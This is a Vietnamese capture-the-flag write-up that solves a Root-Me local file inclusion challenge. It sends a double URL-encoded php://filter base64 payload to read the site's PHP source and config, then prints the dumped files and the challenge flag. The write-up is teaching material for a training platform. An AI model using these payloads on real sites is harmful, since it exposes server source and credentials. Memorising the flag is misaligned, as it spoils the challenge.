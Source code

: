 # Local File Inclusion - Double encoding

#### Statement
Find the validation password in the source files of the website.


Đề bài là encode 2 lần, vậy ta url encode 2 lần payload sau: 
`php://filter/convert.base64-encode/resource=home` (mình lấy trên lfi hacktricks)

Sau khi encode url 2 lần ta được `php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Ddecode%252Fresource%253Dhome`

Thử truy cập payload
`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome`  thì ta nhận được 1 chuỗi mã hóa base64 sau đó ta encode base64 tiếp thì được

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Home</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home" class="active">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact">Contact</a>
    </nav>
    <div id="main">
      <?= $conf['home'] ?>
    </div>
  </body>
</html>

```

chú ý ta sẽ thấy
```php
?php include("conf.inc.php"); ?>
```

Thay đổi file home thành file conf vào payload như sau:
`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Ta lại được 1 chuỗi base 64 và lần này cũng encode base64 tiếp thì ta được:
```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

Ta thấy
```php 
"flag"        => "Th1sIsTh3Fl4g!",
```

#### Flag: "Th1sIsTh3Fl4g!"
